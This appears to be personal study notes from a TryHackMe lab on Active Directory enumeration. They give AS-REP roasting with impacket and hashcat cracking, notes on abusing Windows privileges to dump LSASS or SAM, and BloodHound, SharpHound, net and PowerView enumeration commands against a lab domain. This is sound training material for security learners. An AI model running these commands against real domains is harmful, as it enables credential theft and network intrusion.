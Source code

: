 # AD: Authenticated Enumeration

## As-Rep roasting

A flag UF_DONT_REQUIRE_PREAUTH must be set

Installing impacket

<pre> git clone https://github.com/fortra/impacket.git

cd impacket

python3 -m venv impacket-env

source impacket-env/bin/activate

pip install impacket
</pre>

Than run commands like this
<pre> impacket-smbclient -h </pre>

Run the program
<pre> impacket-GetNPUsers tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass </pre>

Crack the hashes 
<pre>
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
</pre>

## Manual enumeration

<pre> whoami /all</pre>


    SeImpersonatePrivilege: As mentioned already, this privilege allows a process to impersonate the security context of another user after authentication. The “potato” attack revolves around abusing this privilege.

    SeAssignPrimaryTokenPrivilege: This privilege permits a process to assign the primary token of another user to a new process. It is used in conjunction with the SeImpersonatePrivilege privilege.

    SeBackupPrivilege: This privilege lets users read any file on the system, ignoring file permissions. Consequently, attackers can use it to dump sensitive files like the SAM or SYSTEM hive.

    SeRestorePrivilege: This privilege grants the ability to write to any file or registry key without adhering to the set file permissions. Hence, it can be abused to overwrite critical system files or registry settings.

    SeDebugPrivilege: This privilege allows the account to attach a debugger to any process. As a result, the attacker can use this privilege to dump memory from LSASS and extract credentials or even inject malicious code into privileged processes.

`systeminfo | findstr /B "OS"` to learn the OS name and version

### Enumerating Users and Groups with NET

<pre> net user /domain 

net user "username" /domain

net group /domain # Generally, any group with “Admin” in its name is worth checking

net localgroup

schtasks /query
</pre>

## Enumeration With BloodHound

Sharphound
<pre> .\SharpHound.exe --CollectionMethods All --Domain tryhackme.loc --ExcludeDCs </pre>

attacker's pc
<pre> bloodhound-python -u asrepuser1 -p qwerty123! -d tryhackme.loc -ns 10.211.12.10 -c All --zip
 </pre>


## Enumeration With PowerShell’s ActiveDirectory and PowerView Modules

### User Enumeration
<pre>
Get-Module -ListAvailable ActiveDirectory

Import-Module ActiveDirectory

Get-ADUser -Filter *

Get-ADUser -Identity username

Get-ADUser -Identity Administrator -Properties LastLogonDate,MemberOf,Title,Description,PwdLastSet
</pre>

### Group Enumeration

<pre>
Get-ADGroup -Filter *

Get-ADGroupMember -Identity "Group Name"


</pre>

### User Enumeration with powerSploit

<pre>
Import-Module .\PowerView.ps1 
Get-DomainUser 

Get-DomainUser *admin*
</pre>